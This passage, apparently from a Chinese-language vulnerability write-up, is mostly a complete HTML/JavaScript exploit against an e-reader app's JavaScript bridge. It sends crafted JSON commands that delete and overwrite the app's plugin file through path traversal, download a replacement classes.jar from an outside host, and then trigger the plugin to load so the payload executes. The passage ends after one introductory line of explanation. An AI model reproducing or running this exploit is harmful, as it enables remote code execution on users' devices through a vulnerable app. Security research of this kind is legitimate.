 ``` javascript
		}

		function delete_file()
		{
		   var json = '{"Action":"chapPackDownload","Data":{ "StartIndex": 0, "EndIndex" : 0,"Price" : "0", "BookId" : 0, "PayURL" : 0, "DownloadURL" : "aaa", "FileName" :"../plugins/DFService/classes.jar" } }';
		   window.ZhangYueJS.do_command(json);
		   download_plugin();

		}

		//下载不安全加载组件classes.jar
		function download_plugin()
		{
		 	var PLUGIN_URI = "http://www.tasfa.cn/classes.jar";
		 	var PLUGIN_FILE_ID = '123456';
		    var json ='{"Action":"onlineReader","Data":{"Charging":{"FeeType":0,"OrderUrl":"http://192.168.137.1:8001/aaaaa","Price":"0"},"DownloadInfo":{"ChapterId":"1","FeeUnit":10,"Type":"1","FileId":"' + PLUGIN_FILE_ID + '","FileName":"../plugins/DFService/classes.jar","FileSize":10000000,"Ebk3DownloadUrl":"' + PLUGIN_URI + '","DownloadUrl":"' + PLUGIN_URI + '","Version":"2"}}}';
			window.ZhangYueJS.do_command(json);
		}

		var TEXT_FILE_ID = "334455";
		var TEXT_FILE_NAME = "../plugins/DFService/test.txt";
		var TEXT_URI = "http://www.tasfa.cn/test.txt";

		//触发组件进行加载
		function download_text()
		{
			var json = '{"Action":"readNow","Data":{"Charging":{"FeeType":0,"OrderUrl":"http://192.168.137 .1:8001/aaaaa","Price":"0"},"DownloadInfo":{"ChapterId":"1","FeeUnit":10,"Type":"1" ,"FileId":"' + TEXT_FILE_ID + '","FileName":"' + TEXT_FILE_NAME + '","FileSize":10000000,"Ebk3DownloadUrl":"' + TEXT_URI + '","DownloadUrl":"' + TEXT_URI + '","Version":"2"}}}';
			window.ZhangYueJS.do_command(json);
			setTimeout(trigger_plugin_load,5000);

		}

		//触发payload执行
		function trigger_plugin_load()
		{
			var json = '{"Action":"readNow","Data":{"Charging":{"FeeType":0,"OrderUrl":"http://192.168.137 .1:8001/aaaaa","Price":"0"},"DownloadInfo":{"ChapterId":"1","FeeUnit":10,"Type":"1" ,"FileId":"' + TEXT_FILE_ID + '","FileName":"' + TEXT_FILE_NAME + '","FileSize":10000000,"Ebk3DownloadUrl":"' + TEXT_URI + '","DownloadUrl":"' + TEXT_URI + '","Version":"2"}}}';
			window.ZhangYueJS.do_command(json); 
		}
			
		function exploit() {
			create_hash();
			delete_file();
			setTimeout(download_text,15000);
		}

		exploit();
	</script>

</body>
</html> 
```
这里要注意两个点: